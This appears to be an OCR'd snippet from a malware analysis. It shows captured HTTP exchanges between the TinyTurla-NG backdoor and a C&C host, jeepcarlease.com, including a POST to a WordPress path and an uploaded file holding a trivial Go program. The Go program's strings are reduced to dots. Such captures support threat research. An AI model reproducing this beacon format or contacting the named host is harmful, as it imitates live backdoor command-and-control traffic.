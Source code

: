 ```bash
Content-Type: multipart/form-data; boundary="-"
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:2.0.1) Gecko/20100101 Firefox/4.0.1
Content-Length: 738
Host: jeepcarlease.com

---
Content-Disposition: form-data;name="id"
Content-Type: text/plain

307b5c9a
---
Content-Disposition: form-data;name="file"; filename="111.txt"; filename*=utf-8''111.txt
Content-Type: application/octet-stream

package main

import (
    "fmt"
    "os"
)

func main() {
    filePath := "test.txt"

    // ..............................................
    file, err := os.OpenFile(filePath, os.O_WRONLY|os.O_CREATE|os.O_APPEND, 0644)
    if err != nil {
        fmt.Println("............:", err)
        return
    }
    defer file.Close()

    // ........
    content := "................\n"
    _, err = file.WriteString(content)
    if err != nil {
        fmt.Println("............:", err)
        return
    }

    fmt.Println("....................")
}
-----
#**********C&C 站点 -> TinyTurla-NG 新后门**********
#字符串形式：
HTTP/1.1 200 OK
Content-Type: text/plain; charset=utf-8
Date: Mon, 26 Feb 2024 03:36:40 GMT
Content-Length: 4

rsp:
#**********TinyTurla-NG 新后门 -> C&C 站点**********
#字符串形式：
POST /wp-includes/blocks/rss.old.php HTTP/1.1
Cache-Control: no-cache
Connection: Keep-Alive
Pragma: no-cache
Content-Type: multipart/form-data; boundary="-"
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:2.0.1) Gecko/20100101 Firefox/4.0.1
Content-Length: 225
Host: jeepcarlease.com

---
```